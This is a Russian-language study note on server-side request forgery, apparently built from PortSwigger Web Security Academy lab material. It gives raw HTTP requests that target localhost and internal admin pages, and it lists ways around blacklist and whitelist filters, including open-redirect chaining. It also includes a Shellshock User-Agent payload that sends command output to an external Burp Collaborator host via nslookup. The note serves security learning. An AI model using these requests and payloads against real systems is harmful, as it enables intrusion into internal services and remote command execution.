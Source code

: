 [Server-side request forgery](https://portswigger.net/web-security/ssrf)

[SSRF Cheat Sheet & Bypass Techniques](https://highon.coffee/blog/ssrf-cheat-sheet)

## Распространенные атаки SSRF
### SSRF против самого сервера
При атаке SSRF на сам сервер злоумышленник заставляет приложение сделать HTTP-запрос обратно на сервер, на котором размещено приложение, через его loopback сетевой интерфейс. Обычно это включает в себя предоставление URL с именем хоста, например `127.0.0.1` или `localhost`.

Запрос к API для проверки наличия товара на складе:

	POST /product/stock HTTP/1.0 Content-Type: application/x-www-form-urlencoded
	Content-Length: 118
	stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

В этой ситуации злоумышленник может изменить запрос, чтобы указать URL, локальный для самого сервера:

	POST /product/stock HTTP/1.0 
	Content-Type: application/x-www-form-urlencoded 
	Content-Length: 118 
	stockApi=http://localhost/admin

### SSRF на другие внутренние системы

	POST /product/stock HTTP/1.0
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 118
	stockApi=http://192.168.0.68/admin

## Обход распространенных способов защиты от SSRF
### SSRF с входными фильтрами на основе черных списков
Обход фильтра:
- альтернативные IP-представления `127.0.0.1`, например `2130706433`, `017700000001` или `127.1`
- регистрация собственного доменного имени, которое разрешается в `127.0.0.1`. Для этой цели можно использовать `spoofed.burpcollaborator.net`
- Обфускация заблокированных строк с помощью кодировки URL или изменения регистра

### SSRF с входными фильтрами на основе белых списков
Спецификация URL содержит ряд особенностей, которые могут быть упущены при реализации специального разбора и проверки URL:
- учетные данные в URL перед именем хоста, используя символ `@`:

	`https://expected-host@evil-host`

- символ `#` для обозначения фрагмента URL:

	`https://evil-host#expected-host`

- использовать иерархию именования DNS для размещения требуемого ввода в полностью определенном подконтрольном DNS-имени:

	`https://expected-host.evil-host`

- URL-кодировать символы, чтобы запутать код разбора URL. Это особенно полезно, если код, реализующий фильтр, обрабатывает кодированные символы URL иначе, чем код, выполняющий внутренний HTTP-запрос
- использовать комбинации этих методов вместе

### Обход фильтров SSRF через открытое перенаправление
Есть функционал перехода на следующую страницу, которая содержит уязвимость `open redirection`, при которой URL:

	GET /product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080

возвращает перенаправление на:

	`http://192.168.0.12:8080`

Используем уязвимость для обхода фильтра URL и выполняем SSRF:

	POST /product/stock HTTP/1.1
	Host: ac951fab1ffef84ac0f0709400cb00a1.web-security-academy.net
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 88
	
	stockApi=/product/nextProduct?path=http://192.168.0.12:8080/admin

Этот SSRF-эксплойт работает потому что приложение сначала проверяет, что предоставленный URL `stockAPI` находится в разрешенном домене, что и происходит. Затем приложение запрашивает предоставленный URL, что вызывает открытое перенаправление. Оно следует перенаправлению и делает запрос на внутренний URL по выбору злоумышленника.

## Слепые SSRF ^91df93

Например, на сайте используется аналитическое программное обеспечение, которое получает URL, указанный в заголовке `Referer`, когда загружается страница продукта:

	GET /product?productId=19 HTTP/1.1
	Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
	Referer: https://ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net/

Вызов запроса к серверу Burp Collaborator:

	GET /product?productId=19 HTTP/1.1
	Host: ac7a1ffc1e47dae5c097263d00ee00b7.web-security-academy.net
	Referer: http://2wznfi7jzcg9hkmhurnhykpjfal69v.burpcollaborator.net

**Blind SSRF + shellshock**
Shellshock payload: 

	() { :;}; echo "pwned"

Пример запроса:

	GET /product?productId=1 HTTP/1.1
	Host: ac901f3e1ea49cd3c054f7d2005b00d1.web-security-academy.net
	User-Agent: () { :;}; /usr/bin/nslookup $(whoami).6fmtccqu58psg7aj77qad8m9j0psdh.burpcollaborator.net
	Referer: http://192.168.0.§1§:8080

## Поиск скрытой поверхности атаки для уязвимостей SSRF
### Частичные URL-адреса в запросах
Иногда приложение помещает в параметры запроса `только имя хоста или часть пути URL`. Затем переданное значение включается на стороне сервера в полный URL, который запрашивается. Если значение легко распознается как имя хоста или путь URL, то потенциальная поверхность атаки может быть очевидной. Однако возможности использования SSRF могут быть ограничены, поскольку вы не контролируете весь URL, который запрашивается.

### URL в форматах данных
Некоторые приложения передают данные в форматах, спецификация которых позволяет включать URL, которые могут быть запрошены анализатором данных для данного формата. Очевидным примером этого является формат данных `XML`, который широко используется в веб-приложениях для передачи структурированных данных от клиента к серверу. Когда приложение принимает данные в формате `XML` и анализирует их, оно может быть уязвимо для `XXE-инъекции` и, в свою очередь, уязвимо для SSRF через `XXE`.

### SSRF через заголовок Referer
Некоторые приложения используют аналитическое программное обеспечение на стороне сервера, которое отслеживает посетителей. Такое ПО часто регистрирует заголовок `Referer` в запросах, поскольку он представляет особый интерес для отслеживания входящих ссылок. Часто аналитическое программное обеспечение фактически посещает любой сторонний URL, который появляется в заголовке `Referer`. Обычно это делается для анализа содержимого ссылающихся сайтов, включая якорный текст, который используется во входящих ссылках. В результате, заголовок `Referer` часто представляет собой плодотворную поверхность для атаки уязвимостей SSRF (см. [[ssrf#^91df93|Слепые SSRF]]).
